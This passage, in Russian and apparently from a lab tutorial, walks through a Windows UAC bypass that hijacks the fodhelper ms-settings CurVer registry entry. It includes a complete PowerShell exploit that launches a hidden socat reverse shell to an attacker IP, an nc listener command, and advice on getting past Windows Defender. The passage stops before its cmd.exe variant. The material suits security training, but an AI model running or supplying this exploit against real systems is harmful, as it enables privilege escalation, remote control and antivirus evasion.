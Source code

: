 Для этого мы создадим запись в реестре для нового progID по нашему выбору (подойдет любое имя), а затем укажем 
запись CurVer в ms-settings progID на наш недавно созданный progID. Таким образом, когда fodhelper попытается 
открыть файл с использованием ms-settings progID, он заметит запись CurVer, указывающую на наш новый progID, и 
проверит ее, чтобы узнать, какую команду использовать.

Код эксплойта, предложенный @V3ded, использует Powershell для достижения этой цели. Вот его модифицированная версия, 
адаптированная для использования нашей обратной оболочки  (обязательно замените свой IP-адрес, где это необходимо):
```commandline
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

Этот эксплойт создает новый progID с именем .pwn и связывает нашу полезную нагрузку с командой, используемой при 
открытии таких файлов. Затем он указывает запись CurVer ms-settings на наш .pwn progID. Когда fodhelper пытается 
открыть программу ms-settings, он вместо этого будет указывать на .pwn progID и использовать связанную с ним команду.

Эта техника с большей вероятностью обойдет Защитника Windows, поскольку у нас больше свободы в том, куда поместить 
нашу полезную нагрузку, поскольку имя progID, который содержит нашу полезную нагрузку, совершенно произвольно. 
Давайте запустим новый обратный шелл на машине нашего злоумышленника:
```commandline
nc -lvp 4445
```

И выполнить эксплойт из нашего бэкдор-подключения как есть. В результате Защитник Windows выдаст еще одно оповещение,
которое ссылается на наши действия:

Хотя мы все еще обнаруживаемся, важно отметить, что иногда методы обнаружения, используемые антивирусным программным 
обеспечением, реализуются строго против опубликованного эксплойта, без учета возможных вариаций. Если мы переведем 
наш эксплойт из Powershell для использования cmd.exe, антивирус не будет выдавать никаких предупреждений  
(обязательно замените свой IP-адрес, где это необходимо):
